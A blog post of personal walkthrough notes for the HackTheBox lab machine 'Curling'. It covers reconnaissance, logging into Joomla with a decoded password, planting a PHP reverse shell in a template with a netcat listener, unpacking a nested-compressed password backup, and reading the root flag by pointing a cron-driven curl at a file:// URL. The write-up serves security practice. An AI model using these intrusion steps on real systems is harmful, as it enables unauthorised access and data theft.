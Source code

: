 ```yaml
---
title: HackTheBox Notes - Curling (ft. Anger)
thumbnail: curling-thumb.png
---
```


Continuing from [last time](/article/htb_hawk) where I just post my notes,
today is `Curling`. Also note that today is the first of April, and my April
fools joke is that this is not an April fools joke… or is it? I jest of
course, these notes are already enough of a joke.

- - - -

### Nmap Scan
```
Starting Nmap 7.70 ( https://nmap.org ) at 2018-11-05 09:58 AEDT
Nmap scan report for 10.10.10.150
Host is up (0.49s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 8a:d1:69:b4:90:20:3e:a7:b6:54:01:eb:68:30:3a:ca (RSA)
|   256 9f:0b:c2:b2:0b:ad:8f:a1:4e:0b:f6:33:79:ef:fb:43 (ECDSA)
|_  256 c1:2a:35:44:30:0c:5b:56:6a:3f:a5:cc:64:66:d9:a9 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: Joomla! - Open Source Content Management
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.14 seconds
```
### Joomla! Site
`http://10.10.10.150`

* Has upload button at bottom of all pages
* `http://10.10.10.150/administrator/manifests/files/joomla.xml` shows version is `3.8.8`. Released May 22 2018
* Page `/secret.txt` displays `Q3VybGluZzIwMTgh`. Tried this as password on `/administrator` with user `admin` but nope.
	* It’s actually base64. Decodes into `Curling2018!`. Still doesn’t work with `admin`
	* Found username `Floris` in one of the articles. Worked with `Curling2018!`
* Looked at
[this](http://www.thehackerstore.net/2015/01/how-to-upload-shell-in-joomla-via-admin.html)
to upload a PHP shell from [this](https://github.com/pentestmonkey/php-reverse-shell)
	* Created new file in templates `hello.php` and put shellcode there
	* Run `nc -lvpn <port_number>`
	* Go to `10.10.10.150/templates/beez3/hello.php`
	* Got shell as user `www-data`

### PHP Reverse Shell
* Can’t get `user.txt` because we don’t have permissions for `~/floris` but we
can view another file `password_backup`[^1]. It’s a hexdump for something…
* This [list of file
signatures](https://en.wikipedia.org/wiki/List_of_file_signatures) tells us the file is a `bz2` file because it has the signature `42 5A 68` at the start
* Went to `/var/www/html/bin` because the user has write permissions there
* Copied `/home/floris/password_backup`
* Reversed the hexdump back to a `bz2` file with `xxd -r password_backup password_backup.bz2`
* Decompressed the file `bzip2 -d password_backup.bz2`
* Contains the string
```
l[passwordrBZh91AY&SY6@@Pt t"dhhOPIS@68ET>P@#I |3x(*N&Hk1x"{]B@6m
```
What is this

* Did a `file` on it
`password_backup: gzip compressed data, was "password", last modified: Tue May 22 19:16:20 2018, from Unix`
Oh it’s zipped again

* Added `.gz` as a file extension and unzipped it
```bash
$ gunzip password_backup.gz
$ cat password_backup
BZh91AY&SY6@@Pt t"dhhOPIS@68ET>P@#I |3x(*N&Hk1x"{]B@6
```
WHAT THE FUCK IS THIS

* Checked `file` again
```bash
$ file password_backup
password_backup: bzip2 compressed data, block size = 900k
```
This is getting really annoying

* OK
```bash
$ mv password_backup password_backup.bz2
$ bzip2 -d password_backup.bz2
$ cat password_backup
password.txt0000644000000000000000000000002313301066143012147 0ustar  rootroot5d<wdCbdZu)|hChXll
```
Fucks sake
```bash
$ type password_backup
password_backup: POSIX tar archive (GNU)
```
Ugh

* Maybe this will be the last time…
```bash
$ mv password_backup password_backup.tar
$ tar -xvf password_backup.tar
password.txt
```
THIS IS IT!!!
```bash
$ cat password.txt
5d<wdCbdZu)|hChXll
```

### SSH Server
`ssh://10.10.10.150:22`

* Logged in `floris@10.10.10.150` with password `5d<wdCbdZu)|hChXll`
* Get user `cat user.txt`. What a fucking pain
- - - -
* Folder `~/admin-area` has files `input` and `report`
	* Whenever one is edited it is reverted back a while later by something
	* `ls -al` shows it’s being edited every minute. I’m, pretty sure we’re dealing with cron here
* Had a guess that a cron job was calling `curl` with a url from the file `input` and redirecting the result to `report`
	* Changed the url in input from `http://127.0.0.1` to `file:///home/floris/user.txt`
	* Wait for the start of the next minute and `report` now has the user hash. So yep, i’m right
* Changed url  to `file:///root/root.txt` (probably should have done this as
the first test)
* And now we wait…

```bash
floris@curling:~/admin-area$ date
Mon Nov  5 06:52:01 UTC 2018
floris@curling:~/admin-area$ ls -al
total 16
drwxr-x--- 2 root   floris 4096 May 22 19:04 .
drwxr-xr-x 7 floris floris 4096 Nov  5 06:51 ..
-rw-rw---- 1 root   floris   25 Nov  5 06:52 input
-rw-rw---- 1 root   floris   33 Nov  5 06:52 report
floris@curling:~/admin-area$ cat report
82c198ab6fc5365fdc6da2ee5c26064a
```

There must have been a way to find out that cron was using curl instead of pure guesswork, but oh well.

### Footnotes
[^1]:
```
00000000: 425a 6839 3141 5926 5359 819b bb48 0000  BZh91AY&SY...H..
00000010: 17ff fffc 41cf 05f9 5029 6176 61cc 3a34  ....A...P)ava.:4
00000020: 4edc cccc 6e11 5400 23ab 4025 f802 1960  N...n.T.#.@%...`
00000030: 2018 0ca0 0092 1c7a 8340 0000 0000 0000   ......z.@......
00000040: 0680 6988 3468 6469 89a6 d439 ea68 c800  ..i.4hdi...9.h..
00000050: 000f 51a0 0064 681a 069e a190 0000 0034  ..Q..dh........4
00000060: 6900 0781 3501 6e18 c2d7 8c98 874a 13a0  i...5.n......J..
00000070: 0868 ae19 c02a b0c1 7d79 2ec2 3c7e 9d78  .h...*..}y..<~.x
00000080: f53e 0809 f073 5654 c27a 4886 dfa2 e931  .>...sVT.zH....1
00000090: c856 921b 1221 3385 6046 a2dd c173 0d22  .V...!3.`F...s."
000000a0: b996 6ed4 0cdb 8737 6a3a 58ea 6411 5290  ..n....7j:X.d.R.
000000b0: ad6b b12f 0813 8120 8205 a5f5 2970 c503  .k./... ....)p..
000000c0: 37db ab3b e000 ef85 f439 a414 8850 1843  7..;.....9...P.C
000000d0: 8259 be50 0986 1e48 42d5 13ea 1c2a 098c  .Y.P...HB....*..
000000e0: 8a47 ab1d 20a7 5540 72ff 1772 4538 5090  .G.. .U@r..rE8P.
000000f0: 819b bb48                                ...H
```
